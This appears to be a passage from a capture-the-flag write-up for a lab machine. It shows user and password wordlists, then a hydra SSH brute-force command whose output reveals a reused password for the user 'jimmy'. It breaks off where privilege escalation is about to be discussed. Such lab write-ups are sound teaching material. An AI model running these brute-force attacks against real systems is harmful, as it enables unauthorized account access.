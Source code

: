 ```
cat users.txt                                                  
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ jimmy
   3   │ joanna
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

cat pass.txt                  
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pass.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ test
   2   │ admin
   3   │ n1nj4W4rri0R!
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```

Let's start the hydra.

```
hydra -L "users.txt" -P "pass.txt" -e nsr -s 22 ssh://10.10.10.171
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-22 17:27:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:3/p:6), ~2 tries per task
[DATA] attacking ssh://10.10.10.171:22/
[22][ssh] host: 10.10.10.171   login: jimmy   password: n1nj4W4rri0R!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-22 17:27:58
```
- -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login.

Well done! we found a reused password for the user jimmy.

### After enumerating the system to find some way to escalate privileges I found three interesting things.
